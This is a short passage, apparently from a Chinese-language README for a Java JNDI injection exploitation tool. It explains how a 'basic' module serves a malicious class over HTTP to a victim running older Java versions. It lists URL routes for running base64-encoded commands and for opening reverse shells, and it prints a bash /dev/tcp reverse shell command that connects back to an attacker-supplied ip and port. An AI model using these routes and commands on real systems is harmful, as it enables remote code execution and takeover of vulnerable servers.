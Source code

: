 ![](./images/Fuzz1Example.png)

![](./images/Fuzz2.png)

## basic模块
**说明：**低版本的java环境包括11.0.1, 8u191, 7u201, 6u211版本开始做了限制之前的利用方式。本模块使用http请求的方式，返回给受害者恶意类执行。
**使用说明：**
```apl
/basic/base64/[base64_encode_command]
/basic/reverseshell2/ip/port
/basic/reverseshell/ip/port
```
reverseshell执行的命令为：`bash -c $@|bash 0 echo bash -I >& /dev/tcp/ip/port 0>&1`

